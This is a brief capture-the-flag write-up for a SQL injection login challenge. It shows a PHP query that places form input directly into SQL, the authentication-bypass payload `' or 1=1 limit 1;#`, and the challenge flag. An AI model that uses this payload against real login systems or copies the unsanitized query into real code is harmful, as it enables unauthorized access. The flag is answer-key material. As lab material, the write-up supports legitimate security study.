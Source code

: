 # [SQL Injection Level 1](http://s1063.vdi.mipt.ru:8000/challenges#SQL%20Injection%20Level%201)
### [Login form](http://chall1.ctf.pwne.xyz:5555/level1/)

# Solution
1. Let's see source code
```php
$query = "SELECT * FROM users WHERE username='{$_POST['username']}' AND password='{$_POST['password']}'";

if (mysqli_num_rows($result) != 0)
{
	echo $success_page;
}
```
2. If number of rows more than zero then we can login.
3. We can input login: `' or 1=1 limit 1;#`

**Answer**: `flag{de7220f9b6d5ff0ea669d5a4ae1c4f81}`